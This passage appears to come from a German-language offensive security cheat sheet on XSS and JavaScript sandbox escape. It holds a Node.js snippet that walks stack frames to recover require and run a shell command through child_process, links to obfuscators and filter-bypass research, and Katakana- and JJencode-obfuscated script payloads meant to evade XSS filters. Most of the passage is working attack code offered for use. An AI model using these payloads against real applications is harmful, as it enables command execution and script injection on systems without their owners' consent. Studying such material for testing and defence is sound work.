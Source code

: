 ```javascript
function trigger() {
const err = new CustomError()
console.log(err.stack[0])
for (const x of err.stack) {
// use x.getFunction() to get the upper function, which is the one that Node.js adds a wrapper to, and then use arugments to get the parameter
const fn = x.getFunction()
console.log(String(fn).slice(0, 200))
console.log(fn?.arguments)
console.log('='.repeat(40))
if ((args = fn?.arguments)?.length > 0) {
req = args[1]
console.log(req('child_process').execSync('id').toString())
}
}
}
trigger()
```
### Obfuskation & Fortgeschrittene Umgehung

* **Verschiedene Obfuskationen auf einer Seite:** [**https://aem1k.com/aurebesh.js/**](https://aem1k.com/aurebesh.js/)
* [https://github.com/aemkei/katakana.js](https://github.com/aemkei/katakana.js)
* [https://ooze.ninja/javascript/poisonjs](https://ooze.ninja/javascript/poisonjs)
* [https://javascriptobfuscator.herokuapp.com/](https://javascriptobfuscator.herokuapp.com)
* [https://skalman.github.io/UglifyJS-online/](https://skalman.github.io/UglifyJS-online/)
* [http://www.jsfuck.com/](http://www.jsfuck.com)
* Mehr ausgeklügeltes JSFuck: [https://medium.com/@Master\_SEC/bypass-uppercase-filters-like-a-pro-xss-advanced-methods-daf7a82673ce](https://medium.com/@Master_SEC/bypass-uppercase-filters-like-a-pro-xss-advanced-methods-daf7a82673ce)
* [http://utf-8.jp/public/jjencode.html](http://utf-8.jp/public/jjencode.html)
* [https://utf-8.jp/public/aaencode.html](https://utf-8.jp/public/aaencode.html)
* [https://portswigger.net/research/the-seventh-way-to-call-a-javascript-function-without-parentheses](https://portswigger.net/research/the-seventh-way-to-call-a-javascript-function-without-parentheses)
```javascript
//Katana
<script>([,ウ,,,,ア]=[]+{},[ネ,ホ,ヌ,セ,,ミ,ハ,ヘ,,,ナ]=[!!ウ]+!ウ+ウ.ウ)[ツ=ア+ウ+ナ+ヘ+ネ+ホ+ヌ+ア+ネ+ウ+ホ][ツ](ミ+ハ+セ+ホ+ネ+'(-~ウ)')()</script>
```

```javascript
//JJencode
<script>$=~[];$={___:++$,$:(![]+"")[$],__$:++$,$_$_:(![]+"")[$],_$_:++$,$_$:({}+"")[$],$_$:($[$]+"")[$],_$:++$,$_:(!""+"")[$],$__:++$,$_$:++$,$__:({}+"")[$],$_:++$,$:++$,$___:++$,$__$:++$};$.$_=($.$_=$+"")[$.$_$]+($._$=$.$_[$.__$])+($.$=($.$+"")[$.__$])+((!$)+"")[$._$]+($.__=$.$_[$.$_])+($.$=(!""+"")[$.__$])+($._=(!""+"")[$._$_])+$.$_[$.$_$]+$.__+$._$+$.$;$.$=$.$+(!""+"")[$._$]+$.__+$._+$.$+$.$;$.$=($.___)[$.$_][$.$_];$.$($.$($.$+"\""+$.$_$_+(![]+"")[$._$_]+$.$_+"\\"+$.__$+$.$_+$._$_+$.__+"("+$.___+")"+"\"")())();</script>
```

```javascript
//JSFuck
```